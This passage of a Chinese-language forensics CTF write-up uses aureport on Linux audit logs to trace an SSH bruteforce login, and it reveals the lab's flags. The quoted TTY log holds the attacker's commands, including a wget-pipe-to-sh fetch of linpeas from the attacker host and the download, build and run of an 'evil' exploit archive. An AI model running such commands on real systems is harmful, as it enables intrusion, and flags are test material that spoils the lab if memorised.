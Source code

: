```bash
89. 10/05/21 08:23:13 btlo 192.168.4.155 ssh /usr/sbin/sshd yes 467550
...
90. 10/05/21 08:23:34 btlo ? /dev/pts/1 /usr/bin/sudo yes 468442
91. 10/05/21 08:25:40 btlo ? /dev/pts/1 /usr/bin/sudo no 473858
92. 10/05/21 08:25:41 btlo ? /dev/pts/1 /usr/bin/sudo no 473860
```
可以發現account name都是==btlo==，不過奇怪的是前面有一大堆的認證失敗，到最後才有三次的認證成功，所以我們可以很清楚的知道攻擊者就是==192.168.4.155==嘗試用==bruteforce==的方式透過ssh登入進來

:::spoiler Flag
Flag: `btlo`
:::

## ==Q2==
> What attack type was used to gain initial access?

### Recon
呈上題

:::spoiler Flag
Flag: `bruteforce`
:::

## ==Q3==
> What is the attacker's IP address?

### Recon
呈上題

:::spoiler Flag
Flag: `192.168.4.155`
:::

## ==Q4==
> What tool was used to perform system enumeration?

### Recon
根據[^wp1]的說明，此時要使用到`--tty`的參數列出登入進來之後下甚麼command
```bash
sudo aureport -if audit.log --tty

TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 10/05/21 08:23:16 468403 1001 pts1 49 sh "hostname",<nl>
2. 10/05/21 08:23:21 468408 1001 pts1 49 sh "whoami",<nl>
3. 10/05/21 08:23:26 468414 1001 pts1 49 sh "ls",<nl>
4. 10/05/21 08:23:27 468419 1001 pts1 49 sh "sudo -l",<nl>
5. 10/05/21 08:23:34 468447 1001 pts1 49 sh <nl>
6. 10/05/21 08:23:37 468450 1001 pts1 49 sh "wget -O - http://192.168.4.155:8000/linpeas.sh | sh",<nl>
7. 10/05/21 08:26:21 480914 1001 pts1 49 sh "lsb_release -a",<nl>
8. 10/05/21 08:26:31 480921 1001 pts1 49 sh "sudo -V",<nl>
9. 10/05/21 08:26:36 480934 1001 pts1 49 sh "wget http://192.168.4.155:8000/evil.tar.gz",<nl>
10. 10/05/21 08:26:45 480944 1001 pts1 49 sh "ls",<nl>
11. 10/05/21 08:26:50 480947 1001 pts1 49 sh "tar zxvf evil.tar.gz",<nl>
12. 10/05/21 08:26:59 480982 1001 pts1 49 sh "cd evil",<nl>
13. 10/05/21 08:27:03 480984 1001 pts1 49 sh "ls",<nl>
14. 10/05/21 08:27:06 480987 1001 pts1 49 sh "make",<nl>
15. 10/05/21 08:27:10 481020 1001 pts1 49 sh "./evil 0",<nl>
16. 10/05/21 08:27:17 481039 1001 pts1 49 sh "whoami",<nl>
```